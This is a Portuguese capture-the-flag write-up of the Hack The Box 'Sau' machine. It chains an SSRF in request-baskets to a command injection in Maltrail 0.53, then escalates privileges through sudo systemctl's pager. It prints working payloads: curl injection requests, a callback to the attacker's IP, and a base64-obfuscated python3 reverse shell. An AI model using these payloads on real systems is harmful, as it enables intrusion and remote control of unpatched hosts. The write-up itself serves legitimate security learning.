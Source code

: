 Esse é meu primeiro write-up de uma máquina do Hack The Box, é um resumo de como fiz a exploração da máquina SAU lançada em 2023. É uma máquina de nível fácil e explora falhas como SSRF e Command Injection, então borá lá!

Iniciando a enumeração das portas abertas no alvo e quais os serviços rodando nas respectivas portas: 
```bash
# Identificação das portas abertas:
nmap -Pn -sS 10.10.11.224

#Identificação dos serviços nas portas abertas:
nmap -Pn -sV -sC -p 22,80,55555 10.10.11.224
```

![[Pasted image 20230903211629.png]]
O resultado inicial com nmap nos mostrou as portas 22 e 55555 abertas rodando os protocolos de SSH e HTTP respectivamente, além da porta 80 filtrada, indicando que provavelmente existe um serviço de HTTP rodando ali, mas está sendo filtrado para acesso externo pelo firewall.

Vamos então acessar o serviço rodando na porta 55555 e verificar se conseguimos mais informações.

![[Pasted image 20230903211742.png]]


Ao acessar a porta específica, fomos direcionados para a página inicial de um aplicativo web, o request-baskets na versão 1.2.1.
Conforme documentação oficial, o request-baskets é um serviço de captura de requisições HTTP para análise, resumidamente é possível criar um link personalizado (Basket), capturar as requisição recebidas e visualiza-las a partir de um gerenciador web.
Vamos então criar um novo link e verificar o que mais podemos fazer com ele.

![[Pasted image 20230903213259.png]]
Ao clicar em Open Basket após gerar um link, somos redirecionados para o gerenciador de Baskets onde temos algumas opções, entre elas as de configurações do link personalizado.

Dentro das configurações do link, temos a opção de encaminhar o usuário que acessar o Basket para outro site (Forward URL).
Essa opção acendeu um alerta para a vulnerabilidade de SSRF (Server Side Request Foreign), uma falha onde uma URL maliciosa é enviada para o servidor e o mesmo faz uma requisição para essa URL.

A primeira coisa que me veio a cabeça foi, e se eu tentar fazer a requisição para validar se existe mesmo um serviço rodando internamente na porta 80?

Então configurei a opção Forward URL como http://localhost/ (Quando omitimos a porta da URL, a requisição será enviada com a porta 80 por padrão) e ativei as opçãos Proxy Reponse pra que as respostas recebidas pelo servidor fossem encaminhadas de volta, e a opção Expand Forward Path pra que os diretório que forem adicionar ao final da URL do nosso link, sejam adicionadas a URL de encaminhamento também.

![[Pasted image 20230903215801.png]]

Ao salvar e abrir o link em uma nova guia, somos redirecionados para o serviço rodando internamente no servidor, como suspeitado.

![[Pasted image 20230903214909.png]]

Dessa forma foi possível identificar um outro serviço, o Maltrail na versão 0.53.

O Maltrail é um sistema de detecção de tráfego malicioso e com uma rápida pesquisa na internet, descobrimos uma vulnerabilidade de Command Injection nas versões abaixo da 0.54.

A falha consiste na exploração do parâmetro username, enviado em um método POST na página de login da aplicação localizada em /login. Pra executar comando é necessário somente acrescentar o ; após o valor de username e inserir o comando entre crase.

Vamos então validar a vulnerabilidade enviando uma requisição com o curl. Pra isso montados o seguinte payload:
```bash
curl -i http://10.10.11.224:55555/5n9i9og/login --data 'username=;`id`'
```

![[Pasted image 20230903220729.png]]

Ao enviar o comando recebemos apenas a resposta de falha no login, mas não recebemos a saída do comando id. Pra tirar a dúvida se o RCE estava funcionando ou não resolvi fazer outro teste, ao invés de enviar o id diretamente, abri a porta 80 na minha máquina e enviei uma requisição utilizando curl da máquina alvo pra minha, acrescentando o comando $(id) no final da URL, dessa forma:
```bash
curl -i http://10.10.11.224:55555/5n9i9og/login --data 'username=;`curl http://10.10.14.225/$(id)`'
```

![[Pasted image 20230903221705.png]]
E deu certo! A resposta do comando id retornou no cabeçalho da requisição feita pelo alvo.
Dessa forma foi possível validar que a exploração da vulnerabilidade estava funcionando, podemos agora pegar um shell reversa.
Vamos utilizar um payload de shell reversa em python3 e ofuscado com base64.
Primeiro criptografamos os comandos da shell reversa em Base64:
```bash
echo -n "python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.225\",80));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/sh\")'" | base64
```

A técnica de ofuscação consiste em enviar o comando da shell reversa criptografado em base64 e concatenado com os comandos que irão descriptografar o dado e executa-lo respectivamente, ficando então assim nosso payload final:
```bash
echo+{SHELL-EM-B64}+|+base64+-d+|+sh
```

Vamos repetir o processo feito para validar a vulnerabilidade, mas agora enviamos o payload da shell reversa.
![[Pasted image 20230903223743.png]]
Ao enviar a requisição para o servidor, recebemos a shell do alvo em nossa porta aberta.

Capturamos a flag de user da máquina e finalizamos a primeira etapa da exploração. Vamos então seguir para a escalação de privilégio e encontrar a flag de root.

A primeira coisa que faço ao acessar um alvo linux é buscar por binários com permissão SUID, ou seja, são programas que o usuário comum pode executar com privilégios de root, mesmo não sendo.
Utilizando o utilitário find podemos encontrar esses arquivos no alvo:
```bash
find / -perm -u=s -type f 2>/dev/null
```

A pesquisa não retornou nenhum binário em potencial que pudesse ser explorado, então vamos dar uma olhada nas permissões de execução como SUDO, utilizando o comando `sudo -l`.

![[Pasted image 20230904233606.png]]
Agora sim temos algo que podemos explorar, o usuário atual tem permissão de executar o comando systemctl com SUDO sem exigir a senha do mesmo, mas o detalhe é que temos permissão para executar apenas a opção status do serviço trail.service. Nenhuma outra opção ou serviço é permitido.

![[Pasted image 20230904233929.png]]

Depois de algum tempo tentando explorar o systemctl, percebi que quando executado como sudo, a saída do comando entra no modo less. Esse modo permite a visualização da saída do terminal de forma paginada, mas também permite trazer a shell de um usuário durante a paginação.

Vamos então executar o systemctl utilizando sudo e após o inicio da paginação solicitamos a shell com `!sh`.

![[Pasted image 20230904234049.png]]
I am roooooot! 

Conseguimos escalar o privilégio e finalizamos a máquina capturando a flag de root.

Muito obrigado por ter lido até aqui, espero que tenha gostado e em breve pretendo escrever outros write-ups.